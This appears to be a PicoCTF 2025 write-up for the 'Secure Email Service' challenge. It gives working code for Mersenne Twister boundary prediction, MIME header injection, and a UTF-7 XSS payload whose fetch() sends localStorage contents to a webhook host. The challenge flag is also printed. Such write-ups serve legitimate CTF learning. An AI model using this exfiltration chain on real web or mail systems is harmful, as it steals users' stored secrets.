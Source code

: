 # PicoCTF 2025 - Secure Email Service (ID 496)
I have finished the secure-email-service challenge (Hard level) from PicoCTF, and here is the explanation:
#
Challenge Overview:
- Category: Web Exploitation
- Difficulty: Hard
- Points: 500
- Flag: `picoCTF{always_a_step_ahead_fb2a1a8c}`

Key Mechanics:
1. S/MIME signed emails render HTML in shadow DOM
2. Admin bot views emails with flag in localStorage
3. Vulnerable to header injection and boundary prediction
#
## 1. Setup & Reconnaissance
```bash
# Get credentials
INSTANCE_URL="https://your-instance-url.ctf"
USERNAME=$(curl -s "$INSTANCE_URL" | grep -oP 'user@ses\w*')
PASSWORD=$(curl -s "$INSTANCE_URL/api/password" | jq -r '.password')

# Login and get session cookie
SESSION_COOKIE=$(curl -s -X POST "$INSTANCE_URL/api/login" \
  -H "Content-Type: application/json" \
  -d "{\"username\":\"$USERNAME\",\"password\":\"$PASSWORD\"}" \
  | jq -r '.session_cookie')
```
## 2. Boundary Prediction (Mersenne Twister Crack)
```python
import re
import requests
from z3_crack import Untwister

def get_boundary(session, to, subject, body):
    """Extract boundary from sent email"""
    resp = session.post(f'{INSTANCE_URL}/api/send',
                       json={'to': to, 'subject': subject, 'body': body})
    return int(re.findall(r"===(\d+)==", resp.json()['data'])[0])

# Initialize session and cracker
session = requests.Session()
session.cookies.set('session', SESSION_COOKIE)
ut = Untwister()

# Collect 800 boundaries for cracking
for i in range(800):
    boundary = get_boundary(session, USERNAME, f"Probe {i}", "test")
    b_bin = bin(boundary)[2:].zfill(63)
    ut.submit(b_bin[31:])  # Lower 32 bits
    ut.submit(b_bin[:31] + '?')  # Upper 31 bits + padding

# Predict admin's reply boundary
ut.get_random().getrandbits(63)  # Skip our payload boundary
ADMIN_BOUNDARY = f"{ut.get_random().getrandbits(63):019d}"
```
## 3. Craft Malicious Payload
```python
import base64

# UTF-7 encoded XSS payload
XSS_PAYLOAD = """
+ADw-img src=+/x onerror=eval(atob('
    fetch(`https://your-webhook.url/?flag=${btoa(localStorage.flag)}`)
'))+AD4-
"""

# MIME encoded-word wrapper
ENCODED_PAYLOAD = base64.b64encode(
    f"""
--{ADMIN_BOUNDARY}
Content-Type: text/html; charset=utf-7

{XSS_PAYLOAD.strip()}
--{ADMIN_BOUNDARY}--
""".encode('utf-8')
).decode('ascii')

# Final subject with header injection
MALICIOUS_SUBJECT = (
    f"Hi =?ISO-8859-1?B?{ENCODED_PAYLOAD}?= \n"
    f"From : admin@ses\n"
    f"Content-Type: multipart/mixed; boundary=\"{ADMIN_BOUNDARY}\""
)
```
## 4. Send Exploit & Trigger Bot
```bash
# Send malicious email to admin
curl -X POST "$INSTANCE_URL/api/send" \
  -H "Content-Type: application/json" \
  -H "Cookie: session=$SESSION_COOKIE" \
  -d "{
    \"to\": \"admin@ses\",
    \"subject\": \"$(echo -e "$MALICIOUS_SUBJECT" | jq -Rs .)\",
    \"body\": \"Impossible W\"
  }"

# Trigger admin bot twice
curl -X POST "$INSTANCE_URL/api/admin_bot" \
  -H "Cookie: session=$SESSION_COOKIE"

sleep 5  # Wait for first processing

curl -X POST "$INSTANCE_URL/api/admin_bot" \
  -H "Cookie: session=$SESSION_COOKIE"
```
## 5. Flag Exfiltration
```javascript
// Webhook receiver (Node.js)
const http = require('http');
const server = http.createServer((req, res) => {
    const flag = Buffer.from(
        req.url.split('?flag=')[1],
        'base64'
    ).toString('utf-8');

    console.log(`[+] Flag captured: ${flag}`);
    res.end();
});

server.listen(8080, () => {
    console.log('Listening for flag on port 8080...');
});
```
# Final Output
webhook output:

[+] Flag captured: `picoCTF{always_a_step_ahead_fb2a1a8c}`
#
# Dependencies
```bash
# Install required packages for webhook testing
pip install requests z3-solver pycryptodome
npm install -g requestcatcher
```
#

Don't forget to visit my PicoCTF profile on:

https://play.picoctf.org/users/ilhambagas
